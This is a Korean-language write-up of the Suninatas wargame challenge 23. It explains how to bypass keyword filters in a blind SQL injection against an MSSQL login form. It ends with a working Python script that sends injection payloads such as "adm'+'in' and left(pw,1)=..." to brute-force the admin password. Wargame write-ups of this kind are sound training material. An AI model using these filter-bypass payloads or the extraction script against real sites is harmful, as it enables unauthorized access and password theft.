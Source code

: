 ```yaml
---
title: "Suninatas 23 Write up"
categories: SQLi
tags: [blindsqli, wargame]
---
```


Suninatas 23 Write-Up
---------------------

## 문제 분석

이번 문제의 경우 이전 22번 문제에서 변형된 문제로 admin이라는 단어가 필터링에 추가됨과 동시에
substring과 같이 blind SQL Injection에 있어서 중요한 keyword들이 필터링 되었습니다.

![Suninatas_23_Main](../_image/suninatas_23_main.png)

문제의 풀이 조건의 경우 이전 문제와 동일하였습니다. 이번 문제의 핵심은 admin 문자와 substring과 같은
 keyword를 대체할 방법을 찾는 것이었습니다.

* * *

## 문자열 우회

먼저 admin 문자열을 우회하는 방법에 대하여 찾아보았습니다. 우회 방법을 찾을 때 0x나 chr과 같은 keyword의 경우 필터링 되어 있기 때문에 ascii code와 같은 방식은 제외하고 찾아보았습니다.

가장 먼저 시도해본 방법은 concat 함수를 이용한 방법이었습니다. concat 함수의 경우 문자열을 합칠 수 있는 함수로 mysql에서 사용 가능한 함수이나 결과값을 얻을 수 없었습니다. 이후에 풀이를 보고 알았지만 문제 시스템이 mssql로 구성되어 있었다고 합니다.

다음으로 시도하였던 방법은 +를 이용한 우회였습니다. 이는 mssql에서 사용 가능한 우회였으나 이를 사용하여 시도하였음에도 실패한 이유를 분석한 결과 쿼리를 시도할 때 url에 직접 입력하였는데 이 과정에서 + 문자가 url encoding에서 공백을 의미하는 +로 사용되어 발생한 문제로 판단되었습니다. login form에서 시도하였을 때는 정상적으로 동작하는 것을 확인할 수 있었습니다.

* * *

## substring 우회

admin을 우회하는 것에 성공하였기에 다음으로는 substring을 대체할 방법이 필요하였습니다. substring을 
대체할 수 있는 방법으로 left와 right 함수를 이용한 방법이 있단 것을 알 수 있었으나 풀이를 통해 알게 
된 사실은 Query가 30자가 넘게 될 경우 SQL Injection으로 판단하여 차단된다는 것이었습니다.

따라서 30자가 넘지 않도록 Query문을 구성할 필요가 있었기에 제약 사항이 많았습니다. 결과적으로 
left 함수로 받아온 문자열을 right 함수를 이용하여 가장 맨 끝 글자를 가져와 비교하는 식으로 코드를 작성하게 되었습니다.

``` python
#!/usr/bin/python

import requests as req

url = "http://suninatas.com/challenge/web23/web23.asp"
cookies = { "ASP.NET_SessionId":"xn25l4eqiwhk1zdpvf54polm" }
maxpw = 15
pwlen = 0
pw = ""
params = { "pw":"SQLi" }

for a in range(1, maxpw+1):
    params["id"] = "adm'+'in' and len(pw)={}--".format(a)
    response = req.get(url, cookies = cookies, params = params)
    if response.text.find("<font size=4 color=blue>admin</font>") != -1:
            print("Password Length is {}".format(a))
            pwlen = a
            break

for i in range(32, 128):
    params["id"] = "adm'+'in' and left(pw,1)='{}'--".format(chr(i))
    response = req.get(url, cookies = cookies, params = params)
    if response.text.find("<font size=4 color=blue>admin</font>") != -1:
        pw = chr(i)
        break

for i in range(1, pwlen+1):
    for j in range(32, 128):
        params["id"] = "'or right(left(pw,{}),1)='{}'--".format(i, chr(j))
        response = req.get(url, cookies = cookies, params = params)
        print("admin password is {}{}".format(pw, chr(j)), end='\r')
        if response.text.find("<font size=4 color=blue>admin</font>") != -1:
            if i == 1:
                continue
            pw += chr(j)
            break
        
print("admin password is {}".format(pw))
```

